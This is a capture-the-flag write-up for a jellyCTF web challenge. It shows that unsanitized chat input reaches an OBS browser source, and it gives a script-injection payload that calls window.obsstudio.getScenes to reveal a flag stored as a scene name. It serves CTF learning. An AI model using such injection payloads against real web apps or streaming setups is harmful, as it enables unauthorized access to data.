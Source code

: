 # pentest_on_stream
Writeup author: **taodragon_**

Point count: 917pts

Difficulty: medium

Provided files: pentest_on_stream.zip

Description: 
> does this alien princess even sanitize her inputs? see if you can figure out what's going on **behind the scenes**
#

Looking at `app/obs_worker.py`, the program visits a webpage locally and takes a screenshot. From `app/server.py`, we see that user input is not sanitized, and with some testing, we see that we can use `<script>` tags.

In `/obs-studio/basic/scenes/scenes.json` we find the following lines:
```
{
    "current_scene": "chat",
    "current_program_scene": "chat",
    "scene_order": [
        {
            "name": "chat"
        },
        {
            "name": "jellyCTF{redacted}"
        }
    ],
...
    "sources": [
        {
            "prev_ver": 503382018,
            "name": "Browser",
            "uuid": "4f234afd-e963-47e3-98b2-d754742c6707",
            "id": "browser_source",
            "versioned_id": "browser_source",
            "settings": {
                "is_local_file": true,
                "local_file": "/app/chat.html",
...
```
The flag is the name of a scene in OBS. We also see that the screenshot is taken with a browser source. We can read [the documentation of obs_browser](https://github.com/obsproject/obs-browser?tab=readme-ov-file#get-scenes) to find the javascript function `window.obsstudio.getScenes`, which returns the scenes. We can use this to get the flag.

Payload: 
```
<span id="pbchocolate">placeholder</span><script>window.obsstudio.getScenes(function (scenes) {document.getElementById('pbchocolate').innerHTML = scenes[1]})</script>
```
Flag: `jellyCTF{y0u_CANT_ju5t_d0_that_dud3}`
